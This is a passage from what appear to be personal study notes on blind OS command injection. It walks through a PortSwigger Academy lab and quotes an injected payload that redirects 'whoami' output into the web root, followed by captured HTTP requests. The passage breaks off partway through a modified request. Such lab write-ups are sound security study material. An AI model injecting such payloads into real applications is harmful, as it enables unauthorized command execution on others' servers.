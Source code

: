 
#### Redirecting output

If you know the web root, try redirecting the output of a command to a file in the web root that you can access in the browser.

The example given on PortSwigger is 

```
& whoami > /var/www/static/whoami.txt &
```

??? example "PortSwigger OS Command Injection Lab 3: Blind OS command injection with output redirection"

	This lab has a writable folder at `/var/www/images/`.
	
	The following request shows submitting user feedback.
	
	```
	POST /feedback/submit HTTP/1.1
	Host: 0a9b0076038b818e80098ad000df00bf.web-security-academy.net
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br, zstd
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 107
	Origin: https://0a9b0076038b818e80098ad000df00bf.web-security-academy.net
	Connection: keep-alive
	Referer: https://0a9b0076038b818e80098ad000df00bf.web-security-academy.net/feedback
	Cookie: session=WJSRirprxjalGTY0Rt4cRJjhcI1Yeeaf
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin
	X-PwnFox-Color: magenta
	Priority: u=0
	
	csrf=SNExcmSFEI5HlhrXBK2GsamVMqSLoxbC&name=Tester&email=tester%40test.com&subject=Test&message=Test+message
	```
	
	```
	HTTP/1.1 200 OK
	Content-Type: application/json; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Connection: close
	Content-Length: 2
	
	{}
	```
	
	Sending a modified request as shown below results in an error:
	
	```
	POST /feedback/submit HTTP/1.1
	Host: 0a9b0076038b818e80098ad000df00bf.web-security-academy.net
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br, zstd
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 107
	Origin: https://0a9b0076038b818e80098ad000df00bf.web-security-academy.net
	Connection: keep-alive
	Referer: https://0a9b0076038b818e80098ad000df00bf.web-security-academy.net/feedback
	Cookie: session=WJSRirprxjalGTY0Rt4cRJjhcI1Yeeaf
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors